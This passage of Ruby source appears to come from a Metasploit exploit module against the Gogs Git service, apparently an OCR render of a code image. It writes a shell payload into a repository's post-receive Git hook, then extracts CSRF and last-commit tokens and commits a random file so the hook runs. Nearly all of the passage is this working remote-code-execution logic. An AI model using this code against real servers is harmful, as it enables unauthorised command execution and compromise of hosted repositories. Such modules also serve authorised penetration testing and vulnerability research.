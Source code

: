         res = http_post_request(uri, content: shell)
        unless res
          fail_with(Failure::Unreachable, "Unable to reach #{uri}")
        end

        unless res.code == 302
          msg = 'Post-receive hook creation failure'
          if res.code == 404
            msg << ' (user is probably not allowed to create Git Hooks)'
          end
          fail_with(Failure::UnexpectedReply, msg)
        end

        nil
      end

      def gogs_create_file(last_chunk: false)
        uri = normalize_uri(datastore['USERNAME'], @repo_name, '/_new/master')
        filename = "#{Rex::Text.rand_text_alpha(4..8)}.txt"

        res = send_request_cgi('method' => 'GET', 'uri' => uri)
        unless res
          fail_with(Failure::Unreachable, "Unable to reach #{uri}")
        end

        vprint_status('Get "csrf" and "last_commit" values')
        csrf = extract_value(res, '_csrf')
        vprint_good("csrf=#{csrf}")
        last_commit = extract_value(res, 'last_commit')
        vprint_good("last_commit=#{last_commit}")

        http_post_request(
          uri,
          last_commit: last_commit,
          tree_path: filename,
          content: Rex::Text.rand_text_alpha(1..20),
          commit_summary: '',
          commit_message: '',
          commit_choice: 'direct',
          csrf: csrf,
          timeout: last_chunk ? 0 : 20 # The last one never returns, don't bother waiting
        )
        vprint_status("#{filename} created")

        nil
      end

      # Hook the HTTP client method to add specific cookie management logic
      def send_request_cgi(opts, timeout = 20)
        res = super

        return unless res
